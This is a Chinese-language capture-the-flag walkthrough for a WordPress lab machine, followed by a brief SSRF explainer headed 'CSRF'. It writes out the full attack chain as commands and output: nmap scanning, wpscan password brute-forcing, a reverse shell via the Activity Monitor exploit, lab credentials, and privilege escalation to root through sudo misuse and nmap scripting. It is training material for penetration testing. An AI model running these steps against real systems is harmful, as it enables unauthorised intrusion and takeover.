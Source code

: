 



VMware双击打开nat模式即可！
作者要求hosts加入：192.168.253.178 wordy


1、nmap 192.168.253.0/24 -sP
MAC Address: 00:0C:29:48:C6:6D (VMware)
Nmap scan report for 192.168.253.178


2、nmap 192.168.253.178 -p- A -sS -sV -T5

22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))


3、web信息收集

http://wordy/
发现又是wordpress站！
echo ‘192.168.139.151 wordy ’ >/etc/hosts

wpscan --url http://wordy/ -eu   ---简单枚举
发现五个用户名：
admin
graham
mark
sarah
jens


4、暴力破解

前面介绍过！
wc -l rockyou.txt  
14344392 rockyou.txt

cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt
这里根据自己的目录定义！！
减少我们爆破密码的时间，缩小范围！！

wc -l passwords.txt （目前字典数量2668个）


项目二十三介绍过wpscan：
wpscan -U mark -P passwords.txt --url http://wordy
wpscan -U user.txt -P passwords.txt --max-threads 50 --url http://wordy/

mark
helpdesk01

或者burpsuite爆破！

通过dirb爆破获得后台：
http://wordy/wp-admin
成功登录后台！


5、Activity monitor 提权  CVE-2018-15877
https://www.cvedetails.com/cve/CVE-2018-15877/

谷歌上查询：activity monitor
https://www.exploit-db.com/exploits/45274
一旦我们触发了POST请求，我们就会得到一个带有user的反弹shell www-data。

gedit

50行：修改域名
51行：修改IP

nc -vlp 9999
file:////root//Desktop/32/45274.html
获得反弹shell!

python -c 'import pty; pty.spawn("/bin/bash")'


6、内部信息收集

1）Linux version 4.9.0-8-amd64
2）Sudo version 1.8.19p1
3）mysql用户名发现：
ww/html/wp-config.php
define( 'DB_NAME', 'wordpressdb' );
define( 'DB_USER', 'wpdbuser' );
define( 'DB_PASSWORD', 'meErKatZ' );
define( 'DB_HOST', 'localhost' );

4）在/home/mark/stuff目录发现：things-to-do.txt
Add new user: graham - GSo7isUM1D4


7、graham内部信息收集-提权

ssh graham@192.168.253.178
GSo7isUM1D4

sudo -l
User graham may run the following commands on dc-6:
    (jens) NOPASSWD: /home/jens/backups.sh

nano写入：/bin/bash

sudo -u jens /home/jens/backups.sh
成功获得jens权限shell!


7、jens内部提权

sudo -l
 jens may run the following commands on dc-6:
    (root) NOPASSWD: /usr/bin/nmap

https://gtfobins.github.io/gtfobins/nmap/


----
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
sudo nmap --script=$TF
----

获得root权限！！




CSRF:
SSRF(Server-Side Request Forgery:服务器端请求伪造) 是一种由攻击者构造形成由服务端发起请求的一个安全漏洞。一般情况下，SSRF攻击的目标是从外网无法访问的内部系统。（正是因为它是由服务端发起的，所以它能够请求到与它相连而与外网隔离的内部系统）

SSRF 形成的原因大都是由于服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制。比如从指定URL地址获取网页文本内容，加载指定地址的图片，下载等等。利用的是服务端的请求伪造。ssrf是利用存在缺陷的web应用作为代理攻击远程和本地的服务器


漏洞出现点:
1）分享：通过URL地址分享网页内容
2）转码服务
3）在线翻译
4）图片加载与下载：通过URL地址加载或下载图片
5）图片、文章收藏功能
6）未公开的api实现以及其他调用URL的功能
7）从URL关键字中寻找
















































































